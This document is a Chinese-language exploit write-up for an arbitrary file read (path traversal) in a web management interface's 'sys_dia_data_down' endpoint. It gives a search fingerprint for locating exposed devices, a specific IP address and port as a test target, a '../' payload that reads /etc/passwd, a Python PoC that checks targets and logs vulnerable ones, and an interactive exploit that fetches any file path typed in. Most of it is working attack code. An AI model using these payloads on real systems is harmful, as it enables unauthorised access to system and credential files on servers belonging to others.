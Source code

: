 ## 一、资产搜索

```
body="webui/js/jquerylib/jquery-1.7.2.min.js"
```

## 二、网站测试

```
http://123.7.138.247:6008
```

## 三、验证漏洞

```
/webui/?g=sys_dia_data_down&file_name=../../../../../etc/passwd
```

![image-20240914203625179](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914203625179.png)

## 四、POC

```
def poc(target):
    payload = "/webui/?g=sys_dia_data_down&file_name=../../../../../etc/passwd"
    try:
        res1 = requests.get(target,verify=False)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/webui/?g=sys_dia_data_down&file_name=../../../../.."
        res1 = requests.get(target, verify=False)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914204321889](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914204321889.png)

![image-20240914204349280](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914204349280.png)